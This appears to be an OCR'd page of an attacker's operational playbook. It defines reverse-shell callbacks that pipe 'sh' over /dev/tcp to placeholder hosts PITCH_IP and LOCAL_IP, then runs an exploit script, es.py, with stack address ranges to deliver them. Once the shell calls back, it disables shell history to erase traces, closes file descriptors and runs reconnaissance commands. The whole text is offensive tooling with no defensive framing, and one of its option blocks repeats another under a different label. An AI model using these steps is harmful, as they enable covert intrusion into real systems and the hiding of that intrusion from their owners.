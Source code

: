 
## Pick a callback method (use just one of these pairs of export lines,
## most likely the first). The first line in the first exploit window,
## the second in the second.

# Call back with interactive shell via PITCH_IP
export REMOTECOMMAND1="(sh</dev/tcp/PITCH_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/PITCH_IP/NETCAT_PORT2>&0 2>&0)"

# Call back with interactive shell via LOCAL_IP
export REMOTECOMMAND1="(sh</dev/tcp/LOCAL_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/LOCAL_IP/NETCAT_PORT2>&0 2>&0)"

# Call back with output from some commands
export REMOTECOMMAND1="(sh</dev/tcp/PITCH_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/PITCH_IP/NETCAT_PORT2>&0 2>&0)"


## Now, whichever REMOTECOMMAND* lines were used, here is your first
## and second window's exploit line. Note the ranges do not overlap. 
es.py 127.0.0.1 40343 5000 0xbfffe000 0xbfffefff 0x4 0x0 "$REMOTECOMMAND1"
es.py 127.0.0.1 40443 5000 0xbffff000 0xbffffff0 0x4 0x0 "$REMOTECOMMAND2



##############################################
###   IN LOCAL SHELL LISTENER WHEN IT GETS A CALLBACK
##############################################
##
## REMOTE in initial shell callback to netcat:
##
## Are we there yet?
id

## If so, this whole block can go up (to next blank line)
unset HISTFILE
unset HISTSIZE
unset HISTFILESIZE
pwd
exec 3<&- 4<&- 5<&- 6<&- 7<&- 8<&- 9<&- 10<&- 11<&- 12<&- 13<&- 255<&-
uname -a
ls -alrt /tmp
